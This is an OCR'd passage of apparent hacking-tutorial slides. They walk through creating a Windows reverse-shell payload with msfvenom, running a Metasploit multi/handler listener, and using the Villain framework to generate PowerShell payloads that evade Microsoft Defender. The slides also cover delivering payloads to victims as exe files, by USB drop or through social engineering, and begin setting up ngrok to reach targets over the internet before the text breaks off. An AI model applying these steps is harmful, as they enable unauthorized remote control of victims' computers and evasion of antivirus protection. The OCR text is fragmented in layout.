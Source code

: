                          ○ Payloads: a program that helps to run after exploiting/getting reverse-shells ○ Auxiliaries: Programs That will help to scan further on the system. ○ Encoders, 
                         ○ Listeners 
                         ○ Post-exploitation codes: Used to run after we Exploit / privilege Escalation
         ● To start it just type, “msfconsole”
                Create a Payload for windows.
           ● We will use metasploits Feature called msfvenom to create a payload.
           ● As you see we have created the payload 
           ● Now we will send this to the victim 
           ● This is the malware for our reverse attack.
                     Create a listener 
             1. We start Metasploit.   2. We search for an exploit called Multi/handler
             3. To use this exploit  -> use exploit/multi/handler - use 29
                  4. set LHOST <IP>
                  5. set LPORT <port>
                  6. To run it  -> exploit, -> run
                     Problem.
           ● Metasploit is a very old tool and even the encoders are very old. 
           ● This means almost every users tried them and exploited for some time but now a days all the antivirus and Microsoft defender will stop them and detect them. 
           ● But it is Still handy tool for other exploitation and Scanning, you will see it in the future use. 
           ● If you want to test these encoders on your system(may be if it is vulnerable for some of them.) 
           ● Just add -e and the encoder name from the list and create the payload.(msfvenom)
                  So…we cant HACK???
           ● At this time, there are some Frameworks that can bypass microsoft defender. 
           ● This means there are a lot of computers with just defender, right? 
           ● The tool is called Villain 
           ● You can clone it from github. ● https://github.com/t3l3machus/Villain 
                   Start
            ● It have its own some commands 
            ● This tool is Awesome for 
                          ○ Creating payload 
                          ○ No need to setup listener 
                          ○ You can share the session you got with your friends, and hack together…. 
               Create Payload
          ● Villain will give u powershell code 
          ● It is Easy to create. 
          ● Also You can use these 3 methods to make it undetectable.
          ● generate os=windows/linux lhost=wlan0/192.168.1.3
                But… we dont get the victims Powershell???
            ● Now it is time to think like a hacker and getting plan how you will give the payload to the person. 
            ● There are serveral ways 
                           ○ You can create a exe ﬁle from that payload 
                           ○ You can build/get a aurorun usb and do USB drop Attack 
                           ○ You can do social engineering and help them to run it by their own.
        -> https://ps2exe.azurewebsites.net/    
                     Does it really work?
                ● WHen i clicked on the software(topsercte…exe) 
                ● It worked i got shell. 
                ● We have bypassed Defender but not some antivirus 
                ● (as you see smadav has detected it but still didnt do nothing, if you block or not)
                Payload on WAN.
          ● As you saw we were trying the payloads on LAN network. Does it run on WAN? 
          ● TO do this we will need a thing called port forwarding. 
          ● Port forwarding inherently gives people outside of your network more access to your computer. -> Giving access or accessing unsafe ports can be risky, as threat actors and other people with malicious intents can then easily get full control of your device 
                         Ngrok
         ● Ngrok is one of the port forwarding tools. 
                            ○ You can host websites with it 
                            ○ You can listen to tcp connections 
        ● To setup: 